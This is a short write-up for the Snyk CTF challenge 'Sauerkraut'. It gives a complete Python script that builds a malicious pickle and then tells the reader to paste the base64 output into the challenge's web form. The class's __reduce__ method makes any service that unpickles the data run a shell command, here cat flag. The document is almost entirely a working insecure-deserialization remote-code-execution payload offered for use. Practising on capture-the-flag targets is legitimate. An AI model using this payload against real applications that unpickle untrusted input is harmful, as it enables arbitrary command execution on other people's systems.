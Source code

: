 # Python pickle exploit

Snyk CTF 'Sauerkraut' payload based on exploitation of Python pickles.

```python
import base64
import codecs
import pickle
class RCE(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['cat','flag'], ) )

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
You need to copy base64 output and paste it into web form.
